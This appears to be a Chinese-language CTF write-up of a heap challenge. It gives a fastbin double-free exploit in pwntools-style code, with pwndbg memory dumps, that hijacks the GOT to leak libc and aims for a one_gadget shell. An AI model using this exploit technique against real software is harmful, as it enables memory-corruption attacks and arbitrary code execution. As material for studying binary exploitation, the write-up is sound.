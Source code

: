**利用：fastbin attack**

利用fastbin double free，将堆分别分配到.bss段和got表。

程序中给出了三个功能：create，delete，edit。
create：
```
void sub_40090A()
{
  signed int i; // [rsp+8h] [rbp-8h]
  int v1; // [rsp+Ch] [rbp-4h]
  for ( i = 0; i <= 15; ++i )
  {
    if ( !node_info[2 * i] )
    {
      putchar(62);
      v1 = read_str2i();
      if ( v1 > 0 && v1 <= 127 )
      {
        node_info[2 * i + 1] = (void *)v1;
        node_info[2 * i] = malloc(v1 + 1);
        putchar(62);
        read(0, node_info[2 * i], v1);
      }
      return;
    }
  }
}
```
node_info 是一个全局变量，用来存放每个chunk的地址和用户请求的大小。可以用以下结构体表示：
```
struct node_info
{
   void *     chunk_ptr
   long long  size
}
```
可以先使用Arbitrary alloc，将堆分配到这里，修改chunk_ptr为函数的got地址，
由于程序中没有给出打印功能，可以再将堆分配到got，则可以将free的got项修改为puts_plt，然后再free chunk时，就可以将函数地址打印出来。

### 修改chunk_ptr

```
create(0x50,"aaa")  #index 0, 这个chunk是用来满足size位，用来当fake_chunk的size位。

create(0x40,"aa")   #index 1
create(0x40,"asaa") #index 2
delete(1) 
delete(2)
delete(1)  # double free，然后修改fd指针
create(0x40,p64(0x6010A0))
create(0x40,"a")          
create(0x40,"a")  
        
read_got=0x601048
payload=read_got
create(0x40,p64(payload)) #分配到目标chunk，然后修改chunk_ptr，这里是将chunk_ptr修改为read got。
```
### 修改free的got表项。

```
create(0x50,"aaaaaaaa") 
create(0x50,"bbbbbbbb")
delete(7)
delete(8)
delete(7)                      #接着double free
fake_chunk_addr=0x601002-0x8   #利用错位，绕过size的检查。
create(0x50,p64(fake_chunk_addr))#index 9
create(0x50,"aaa")#index 10
create(0x50,"aaa")#index 11
```
got表附近的内存数据如下：

```
pwndbg> x/50bx 0x601000-0x20                                                       
0x600fe0:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x600fe8:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x600ff0:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x600ff8:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x601000:       0x28    0x0e    **0x60    0x00    0x00    0x00    0x00    0x00
0x601008:       0x68    0xe1**    0xff    0xf7    0xff    0x7f    0x00    0x00
0x601010:       0xe0    0xee
```
fastbin的size检查只计算size位的低4字节。所以0x601002 可以满足要求：

```
pwndbg> x/gx 0x601002
0x601002:       0xe168000000000060
```
然后修改free的got为puts_plt
```
puts_plt=elf.plt["puts"]
#0x601002-0x8+0x10
payload='\x00'*14+p64(puts_plt)
create(0x50,payload)  #index 12
delete(1)
read_addr=u64(a.recvuntil("\n",drop=True).ljust(8,"\x00"))
success("read address ==> 0x%x"%read_addr)
```

计算出libc的基址，然后再修改read_got为one_gadget即可

